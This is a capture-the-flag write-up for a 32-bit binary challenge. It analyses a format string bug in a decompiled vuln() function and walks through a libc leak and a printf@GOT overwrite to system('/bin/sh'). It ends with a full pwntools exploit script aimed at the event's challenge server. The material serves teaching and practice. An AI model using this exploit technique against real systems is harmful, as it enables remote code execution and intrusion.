


## I. Reconnaissance
- FILE

- Checksec

  #### Key Takeaways:
  
  * **Architecture (32-bit/i386):** As a 32-bit executable, function arguments are pushed directly onto the stack. This behavior is crucial for exploiting the format string vulnerability later on.
  * **No RELRO:** The Global Offset Table (GOT) is entirely writable. This is the primary weakness that allows us to perform a **GOT Overwrite** attack.
  * **No PIE:** The binary is loaded at a fixed base address. This means the addresses of GOT entries (such as `printf@GOT` and `puts@GOT`) are constant and can be hardcoded into our exploit without requiring an initial binary leak.
  * **NX Enabled:** The stack is non-executable, meaning we cannot just drop shellcode onto it.
## II. Vulnerability Analysis
- Decompiling the binary reveals a clear vulnerability in the vuln() function:
```C
char *vuln()
{
  char *result; // eax
  size_t v1; // eax
  char format[592]; // [esp+0h] [ebp-268h] BYREF
  char *v3; // [esp+250h] [ebp-18h]
  char *v4; // [esp+254h] [ebp-14h]
  char *s; // [esp+258h] [ebp-10h]
  size_t i; // [esp+25Ch] [ebp-Ch]

  s = asc_804A008;
  v4 = byte_804A364;
  v3 = byte_804A448;
  puts("\nHere's an example layout of the building, your design will be placed in the middle block:\n");
  puts(asc_804A008);
  puts(byte_804A364);
  puts(byte_804A448);
  puts("\nNow it's your turn to design the middle block! Send your design as ASCII art:\n");
  puts("Note: use ` inplace of newlines.\n");
  while ( 1 )
  {
    fwrite("BrickCityOfficeSpace> ", 1u, 0x16u, stdout);
    result = fgets(format, 592, stdin);
    if ( !result )
      break;
    for ( i = 0; ; ++i )
    {
      v1 = strlen(format);
      if ( v1 <= i )
        break;
      if ( format[i] == 96 )
        format[i] = 10;
    }
    puts(s);
    printf(format);
    puts(v3);
    puts("\nWould you like to redesign? (y/n)");
    fgets(format, 592, stdin);
    if ( format[0] != 121 && format[0] != 89 )
    {
      result = (char *)(unsigned __int8)format[0];
      if ( format[0] != 110 )
      {
        result = (char *)(unsigned __int8)format[0];
        if ( format[0] != 78 )
        {
          puts(
            "\n"
            "Well that wasn't a y or an n... clearly you don't know how to follow simple instructions. Maybe we should re"
            "consider your employment.\n");
          puts("This is what you said: \n");
          printf(format);
          puts("\n--- Session ending - you've bricked your last block ---");
          exit(0);
        }
      }
      return result;
    }
  }
  return result;
}
```
- The program takes user input via fgets and passes it directly to printf without a safe format string specifier (e.g., printf("%s", format);). Furthermore, this logic is wrapped inside an infinite while(1) loop, allowing us to trigger the Format String vulnerability multiple times.
- Since there is no win function (a hidden function that prints the flag), our ultimate goal is to overwrite a GOT entry to force the program to call system("/bin/sh")
## III. Exploitation Strategy
- Our exploit will consist of 3 stages, taking advantage of the infinite loop:
  1. **Find the Offset:** Determine the position of our payload on the stack.
  2. **Leak Libc:** Leak the real memory address of a resolved libc function (we'll use puts@GOT) to calculate the libc base address and subsequently the system function address.
  3. **GOT Overwrite & Pop Shell:** Overwrite the printf@GOT entry with the address of system. In the next loop iteration, we simply pass /bin/sh as our input to execute system("/bin/sh").
## IV. Execution
#### Step 1: Finding the Format String Offset 
- We send a test payload containing a recognizable string (AAAA) along with %p format specifiers to locate our input on the stack:
  - **Input:** AAAA.%p.%p.%p.%p.%p.%p
  - **Output:** AAAA.0x250.0xf7f625c0.0xf7f62d40.0x41414141.0x2e70252e.0x252e7025
- The value 0x41414141 (the hex representation of AAAA) appears at the 4th parameter. Thus, our offset = 4.
#### Step 2: Leaking Libc Address
- We need to read the content stored at puts@GOT. By placing the puts@GOT address at the beginning of our payload and using %4$s, printf will dereference the 4th argument (our address) and print the string at that memory location.
```python
  payload_leak = p32(elf.got['puts']) + b"%4$s"
```
- The response gives us the actual address of puts inside the dynamically loaded libc. From there, we can calculate libc.address and system_addr.
#### Step 3 : GOT Overwrite
- Overwrite printf@GOT with system_addr
#### Step 4: Popping the Shell
- At this point, printf has been hijacked and essentially turned into system. When the program loops back and asks for the design input, we simply send /bin/sh. The program will execute printf(format), which is now equivalent to system("/bin/sh").
## V. Exploit Script
```python
from pwn import *

context.binary = exe = ELF('./BrickCityOfficeSpace_patched')
libc = ELF('./libc.so.6')

p = remote('brick-city-office-space.pwn.ctf.umasscybersec.org' , 45001)

offset = 4
puts_got = elf.got['puts']
payload_leak = p32(puts_got) + f"%{offset}$s".encode()

p.sendlineafter(b"BrickCityOfficeSpace> ", payload_leak)
p.recvuntil(p32(puts_got))

leaked_puts_raw = p.recv(4)
leaked_puts_addr = u32(leaked_puts_raw)
libc.address = leaked_puts_addr - libc.symbols['puts']

system_addr = libc.symbols['system']

p.sendlineafter(b"Would you like to redesign? (y/n)\n", b"y")
printf_got = elf.got['printf']
payload_write = fmtstr_payload(offset, {printf_got: system_addr}, write_size='short')
p.sendlineafter(b"BrickCityOfficeSpace> ", payload_write)
p.sendlineafter(b"Would you like to redesign? (y/n)\n", b"y")
p.sendlineafter(b"BrickCityOfficeSpace> ", b"/bin/sh")

p.interactive()
```
